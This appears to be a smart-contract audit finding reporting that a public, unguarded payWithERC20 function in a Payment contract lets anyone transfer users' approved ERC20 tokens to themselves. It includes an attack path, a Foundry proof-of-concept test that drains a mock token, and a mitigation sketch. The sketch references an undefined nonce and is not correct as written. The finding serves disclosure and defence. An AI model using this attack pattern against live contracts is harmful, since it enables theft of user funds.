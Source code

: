 Main Infrared Loris

High

# Critical Unauthorized ERC20 Token Draining Vulnerability in Payment Contract's payWithERC20 Function

### Summary

The absence of access control or signature verification in the `payWithERC20` function will cause a complete loss of funds for users as an attacker will exploit the public nature of the function to transfer approved ERC20 tokens from users to themselves.

### Root Cause

In [Payment.sol:25-32](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25-L32), the `payWithERC20` function is declared as `public` and lacks any form of authorization, such as signature verification or access control, allowing anyone to call it and initiate token transfers from users who have approved the `Payment` contract to spend their ERC20 tokens.

### Internal Pre-conditions

1. A user needs to call the ERC20 `approve` function to set the `Payment` contract's allowance to be at least the amount of tokens they intend to transfer.
2. The user’s approval must remain active (not revoked or reduced) before an attacker calls `payWithERC20`.

### External Pre-conditions

- None. The vulnerability depends entirely on internal contract interactions and user approvals, with no reliance on external protocol states.

### Attack Path

1. A user calls `approve(Payment.address, amount)` on the ERC20 token contract, granting the `Payment` contract permission to spend a specified amount of their tokens.
2. An attacker monitors the blockchain for such approvals or targets known users who have interacted with the `Payment` contract.
3. The attacker calls `payWithERC20(erc20TokenAddress, amount, userAddress, attackerAddress)` with:
   - `erc20TokenAddress`: The address of the ERC20 token.
   - `amount`: The approved amount (or a lesser value within the allowance).
   - `userAddress`: The address of the user who granted the approval.
   - `attackerAddress`: The attacker’s own address.
4. The `Payment` contract executes `safeTransferFrom(userAddress, attackerAddress, amount)`, transferring the user’s approved tokens to the attacker.

### Impact

The user suffers an approximate loss of the full amount of approved ERC20 tokens. The attacker gains the equivalent value of the tokens transferred from the user.

### PoC

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.26;

import {Payment} from "../src/Payment.sol";
import "forge-std/Test.sol";
import {MockERC20} from "./MockERC20.sol";

contract PaymentTest is Test {
    Payment payment;
    MockERC20 token;
    address user = address(0x1);
    address attacker = address(0x2);

    function setUp() public {
        payment = new Payment();
        token = new MockERC20();
        token.mint(user, 1000e18); // mint 100 tokens to user
    }

    function testDrainApprovedTokens() public {
        vm.deal(address(token), 1000e18);
        vm.startPrank(user);
        // user approve max amount of tokens to payment contract
        token.approve(address(payment), type(uint256).max);
        vm.stopPrank();
        console.log("token balance of user before attack", token.balanceOf(user));
        console.log("token balance of attacker before attack", token.balanceOf(attacker));

        // attacker call payWithERC20 function
        vm.startPrank(attacker);
        payment.payWithERC20(address(token), 1000e18, address(user), address(attacker));
        vm.stopPrank();

        console.log("token balance of user after attack", token.balanceOf(user));
        console.log("token balance of attacker after attack", token.balanceOf(attacker));

        assertEq(token.balanceOf(attacker), 1000e18);
    }
}

```

### Mitigation

To address this vulnerability, consider the following recommendations:

1. **Restrict Access**: Implement access control to limit who can call `payWithERC20`. For example:
   - Use OpenZeppelin’s `Ownable` to restrict the function to the contract owner.
   - Introduce a role-based system where only authorized relayers can invoke the function.
   - Make the function internal/private

2. **Signature Verification**: Add a signature check to ensure the user authorizes each transfer. Example implementation:
   ```solidity
   function payWithERC20(
       address erc20TokenAddress,
       uint256 amount,
       address fromAddress,
       address toAddress,
       bytes memory signature
   ) public {
       // Verify signature from fromAddress for this transfer
       bytes32 messageHash = keccak256(abi.encodePacked(erc20TokenAddress, amount, toAddress, nonce));
       require(ECDSA.recover(messageHash, signature) == fromAddress, "Invalid signature");
       // Proceed with transfer
       IERC20(erc20TokenAddress).safeTransferFrom(fromAddress, toAddress, amount);
   }
   ```